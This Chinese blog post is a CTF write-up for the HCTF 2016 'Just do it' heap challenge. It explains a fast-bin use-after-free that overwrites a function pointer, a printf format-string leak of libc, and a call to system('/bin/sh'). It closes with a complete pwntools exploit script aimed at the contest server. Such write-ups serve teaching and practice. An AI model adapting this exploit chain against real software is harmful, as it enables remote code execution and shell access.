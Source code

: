 ```yaml
---
layout:     post
title:      "2016Hctf-Just do it"
subtitle:   "fast-bin内存机制的探究与利用"
date:       2016-12-01 16:55:25
author:     "Carter"
header-img: "img/post-bg-2015.jpg"
tags:
    - Linux
    - pwn
    - UAF
---
```




### 一. 知识点：
**1. 代码段开了随机化怎么调试：**

需要两个文件，其一是debug，通过peda获取每次程序加载代码段基址，内容如下：

```javascript
python
code_addr = peda.get_vmmap('binary')[0][0]
peda.execute('set $code='+hex(code_addr))
end
source aa
```

另一个是断点文件aa，通过source指令链接到debug文件中，内容如下：

```python
break * $code + 0xe93
break * $code + 0xd65
```

在exp中只需要加入一句话就可以挂载gdb，并在启动gdb后自动加载断点信息

```python
gdb.attach(pidof('pwn1')[-1],open('debug'))
```

### 二. 题目描述：
该题主要有两个功能：

 - 一是开辟内存输入字符串
 - 二是删除字符串并释放该内存块

明显就是考察申请释放堆块的相关姿势。首先来看**输入字符串函数**：

每个字符串都会分配一个长度为32的堆块A「实际分配长度为48，包括16字节堆块头」。接着判断输入字符串长度，如果长度小于15，则直接把字符串存储在该堆块A中；如果大于15，则另外开辟一块内存B存储字符串，堆块A中仅仅存储堆块B的地址。

**长度小于15的字符串堆块：**

布局如下：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/10.png)
对应内存如下：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/1.png)

**长度大于15的字符串堆块：**
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/2.png)
内存中还有一个堆块总管理地址，对每个字符串有两个变量来标志它：1.该字符串是否被删除的标志位; 2.为字符串分配的堆块地址
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/3.png)

再来看看**删除字符串函数**:首先判断字符串对应的堆管理结构的第二个位置是否为0[**漏洞所在：第二个位置是函数地址永远不可能为0,判断无效**]，然后调用堆块中存储的'处理删除字符串函数'。如果我们可以覆盖此函数地址为其他地址，再释放该堆块，那么就可以任意函数执行了
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/4.png)



### 三. 漏洞利用：
**1.**首先输入3个长度小于15的字符串，申请3块内存，此时堆管理结构如下：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/5.png)
**2.** 接着删除字符串1、2、3，因为堆块A、B、C都是小于128字节，所以分配和释放都用fast-bin方式进行。释放后的堆块在链表中将后进先出，此时该fast-bin链如下：
C --> B --> A 


**3**. 再输入一个长度大于15的字符串：首先会分配一块32字节的堆，此时将分配到空闲块C；接着分配一个字符串长度的堆块，此时应该保证字符串长度在15-32之间，就可以顺利的分配到空闲堆块B，然后字符串的内容由我们输入存放在堆块B中，就可以覆盖原本的'处理删除字符串函数'为我们想调用的函数printf


在这里有一个坑：printf函数的偏移为0x9d0，但是我们只能覆盖整数字节，也就是说得把原本'处理删除字符串函数'的后面4个字母数覆盖为'x9d0'，其中x是一个未知数，有16种可能，在这里只能fuzz撞概率咯~

覆盖前：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/6.png)
覆盖后：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/7.png)
**4.** 接着释放第2块会调用存放于堆块B中的'处理删除字符串函数'，此时已经被我覆盖为printf函数的地址
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/8.png)
由调试可知，参数正好是输入字符串，所以就可以了任意函数执行并控制参数
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/9.png)
**5.** 顺利的调用了printf('%170$p')，可以泄露存放在栈上的__libc_start_main+240的地址，从而可以计算出system函数的地址

**6.** 接着再执行一遍以上过程，从新触发任意函数执行的漏洞，执行system('/bin/sh')即可获取shell

**7.** 利用代码如下

```python
from pwn import *

context.log_level = 'debug'
global io

def create_list(io,length,strr):
	io.recvuntil('quit')
	io.sendline('create ')
	io.recvuntil('Pls give string size:')
	io.sendline(length)
	io.recvuntil('str:')
	io.sendline(strr)

def delete_list(io,number):
	io.recvuntil('quit')
	io.sendline('delete ')
	io.recvuntil('id:')
	io.sendline(number)
	io.recvuntil('Are you sure?:')
	io.sendline('yes')


def pwn():
	global io

	debug = 0
	if debug:
   	 	io = process('./pwn1')
	else:
		#io = remote('127.0.0.1',2333)
		io = remote('115.28.78.54',80)
		io.recvuntil('please input you token: ')
		io.sendline('b66888c818c08d932ea91b8d6a1f122c2y7ZAdbh')
#------------------------------------------------use fsb to leak __libc_start_main's address
	create_list(io,'10','aaaa')
	create_list(io,'10','bbbb')
	create_list(io,'10','cccc')
	delete_list(io,'0')
	delete_list(io,'1')
	delete_list(io,'2')
	content1 = "%175$p".ljust(24,'a')+'\xd0\xf9\x00'
	create_list(io,'29',content1)
	delete_list(io,'1')                     #-----printf('%113$p')

	data = io.recv(14)
	libc_start_main = int(data,16)-240
	print "libc_start_main_addr="+hex(libc_start_main)
#--------------------------------------------------caculate system_addr	
	libc_start_main_offset = 0x20740
	system_addr = 0x45380
	system_addr = libc_start_main  - libc_start_main_offset + system_addr
	print "system_addr=" + hex(system_addr)

	if debug:
		gdb.attach(pidof('pwn1')[-1],open('debug'))

	create_list(io,'10','zzzz\x00')

	create_list(io,'10','aaaa\x00')
	create_list(io,'10','bbbb\x00')
	create_list(io,'10','cccc\x00')
	delete_list(io,'2')
	delete_list(io,'3')
	delete_list(io,'4')
#----------can't have '\x00' in string.because len(string) must >15.And after '/bin/sh' must have a space.
	content2 = "/bin/sh #".ljust(24,'a')+ p64(system_addr)  
	create_list(io,'32',content2)
	delete_list(io,'3')                     #system('/bin/sh')
	
	io.sendline('uname -a')
	io.interactive()



if __name__ == '__main__':
	while True:
		try:
			pwn()
		except EOFError:
			print 'guess not success!!!'
			io.close()
			time.sleep(5)
```

[题目下载链接](https://github.com/carterMgj/blog_img/blob/master/2016-12-01-Hctf-jiushigan/pwn1)

### 唠叨几句：
这是第一次接触到还带猜的pwn，所以详细的记录了一下解题过程。猜的过程也比较有意思，由于主办方采取了一定的防DOS措施：当检测到访问过于频繁时就会禁止访问该题。加之学校ip出口都是一个，校内还有一些大佬也在fuzz这个题，所以导致fuzz过程异常艰难！

总的来说，这个题还是出得很棒的，给主办方杭州电子科技大的大佬们赞一个~